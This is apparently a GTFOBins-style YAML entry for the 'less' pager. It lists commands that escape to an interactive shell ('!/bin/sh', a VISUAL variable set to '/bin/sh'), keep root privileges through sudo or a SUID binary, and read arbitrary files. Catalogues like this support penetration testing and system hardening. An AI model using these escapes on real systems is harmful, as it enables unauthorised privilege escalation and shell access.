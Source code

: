 ```yaml
---
functions:
  execute-interactive:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  sudo-enabled:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid-limited:
    - code: |-
        ./less /etc/profile
        !/bin/sh
  file-read: 
    - code: |
        less file_to_read
---
```

